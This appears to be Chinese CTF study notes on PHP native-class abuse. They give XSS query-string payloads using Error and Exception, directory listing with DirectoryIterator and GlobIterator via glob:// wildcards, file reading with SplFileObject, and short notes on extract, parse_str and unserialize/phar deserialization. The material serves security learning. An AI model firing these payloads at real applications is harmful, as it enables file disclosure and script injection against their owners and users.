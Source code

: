 `?a=Error&b=<script>alert("Lxxx");</script>`

Exception
与Error类似，Exception同样有__toString方法，因此测试代码和上方一样，传入以下payload，同样可以XSS。

`?a=Exception&b=<script>alert("Lxxx");</script>`

遍历目录类 DirectoryIterator,FilesystemIterator

`?a=DirectoryIterator&b=glob://flag*`
`?a=DirectoryIterator&b=glob://f[k-m]*`

GlobIterator
`?a=GlobIterator&b=f[k-m]*`


读取文件类 SplFileObject
  可以使用伪协议。 https://mp.weixin.qq.com/s/uNcPHMMq0vRvf-ZQ6oZ8_g
```
<?php
$a = $_GET['a'];
$b = $_GET['b'];
echo new $a($b);
```

`?a=SplFileObject&b=flag.php`

### 变量覆盖/extract/parse_str

extract

```php
<?php
$a = "original";
$my_array = array($a=>"Cat", "b"=>"Dog", "c" => "Horse");
extract($my_array);
echo "\$a = $a;\$b= $b; \$c = $argc"; # $a = original;$b= Dog; $c = 1
?>
```

parse_str
```php
parse_str("name=Bill&age=60");
```
### phpinfo 审计代码反序列化 unserialize
考点
1.unserialize
2.phar
wp -- Web_php_NSSCTF prize_p1 反序列化_throw_gc.md

NSSCTF prize5 - 反序列化
         反序列化大写S解析16进制 逃逸
         原生类读取文件 Directorylterator 类、Filesystemlterator 类以及GlobIterator类 加 `glob://*f*` 读取文件, 支持通配符`glob://f[k-m]*`
                  GlobIterator 不带上glob协议头 `?a=GlobIterator&b=f[k-m]*`


